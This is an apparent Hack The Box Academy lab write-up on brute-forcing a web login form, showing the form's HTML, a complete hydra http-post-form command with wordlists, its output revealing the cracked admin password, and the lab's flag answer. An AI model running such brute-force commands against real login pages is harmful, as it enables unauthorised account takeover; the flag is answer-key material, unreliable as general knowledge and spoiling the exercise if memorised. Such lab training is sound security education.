

# Section 08: Login Forms

Module: 16. Login Brute Forcing

---

## Questions & Answers

### 1. After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Context:
- Visit the page, found form:
```html
<form method="POST">
    <h2>Login</h2>
    <label for="username">Username:</label>
    <input type="text" id="username" name="username">
    <label for="password">Password:</label>
    <input type="password" id="password" name="password">
    <input type="submit" value="Login">
</form>
```
- Tried submitting `test:test` got message `Invalid credentials`, now construct and run the hydra command:
```bash
┌─[eu-academy-2]─[10.10.14.91]─[htb-ac-2162140@htb-hfzkdvfmgy-htb-cloud-com]─[~]
└──╼ [★]$ hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f 154.57.164.82 -s 30742 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-09-07 04:17:18
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3400 login tries (l:17/p:200), ~213 tries per task
[DATA] attacking http-post-form://154.57.164.82:30742/:username=^USER^&password=^PASS^:F=Invalid credentials
[30742][http-post-form] host: 154.57.164.82   login: admin   password: zxcvbnm
[STATUS] attack finished for 154.57.164.82 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-09-07 04:17:39
```


**Answer:** `HTB{W3b_L0gin_Brut3F0rc3}`

---

[Back to Module Index](./README.md)
